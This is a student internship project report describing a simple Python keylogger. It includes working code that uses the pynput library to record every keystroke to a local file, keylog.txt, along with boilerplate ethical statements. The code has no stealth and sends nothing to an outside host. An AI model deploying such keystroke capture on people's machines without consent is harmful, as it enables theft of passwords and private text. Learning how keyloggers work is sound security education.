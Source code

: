 # PRODIGY_CS_Task-04

# Project Title: Simple Keylogger Development

__Author:__ Berlin Shaju Bellarmin

__Date:__ 12/05/2024

# Introduction:

The Simple Keylogger Development project aimed to create a basic keylogger program that records and logs keystrokes. This report provides an overview of the project, including its objectives, implementation process, and outcomes.

# Project Overview:
The keylogger project focused on developing a program capable of capturing keystrokes in real-time and saving them to a file for analysis. The primary objectives were:

Develop functionality to capture keystrokes using Python.

Implement a mechanism to store the captured keystrokes in a file.

Ensure ethical considerations and permissions are addressed for keylogger usage.

# Implementation Process:

# 1. Research and Planning:

Conducted research on keylogger implementation techniques, Python libraries, and ethical considerations.
Developed a plan outlining project objectives, requirements, and timeline.

# 2. Coding:

Utilized the pynput library in Python to capture keyboard input.
Implemented a function to write captured keystrokes to a file named keylog.txt.

# 3. Testing and Debugging:

Conducted thorough testing to validate the functionality and reliability of the keylogger.
Addressed any bugs or issues encountered during testing.

# 4. Documentation:

Documented the code implementation, including function descriptions, usage instructions, and ethical considerations.
Prepared a comprehensive report summarizing the project details and outcomes.

# Code Implementation:

```
from pynput.keyboard import Key, Listener

# Define the function to write keystrokes to a file
def on_press(key):
    with open("keylog.txt", "a") as f:
        f.write(str(key) + "\n")

# Create a listener instance
with Listener(on_press=on_press) as listener:
    listener.join()
```
    
# Description:

The code utilizes the __pynput__ library to capture keyboard input.

The __on_press__ function writes captured keystrokes to a file named __keylog.txt__.

A listener instance continuously monitors keyboard events.

__Ethical Considerations:__

Prioritized ethical considerations throughout the development process.
Ensured users were informed about the keylogger's usage and obtained necessary permissions.
Respected user privacy and data protection regulations.

__Outcome:__

The keylogger project was successfully completed, meeting all specified objectives. The program effectively captures and logs keystrokes, providing valuable insights into user activity. Ethical considerations were prioritized, ensuring compliance with relevant guidelines and regulations.

# Conclusion:

The Simple Keylogger Development project provided an opportunity to delve into keylogger implementation techniques and ethical considerations in cybersecurity. The project's successful completion demonstrates the ability to apply theoretical knowledge to practical problem-solving scenarios. Moving forward, I am eager to explore more cybersecurity projects and contribute to the field's advancements.
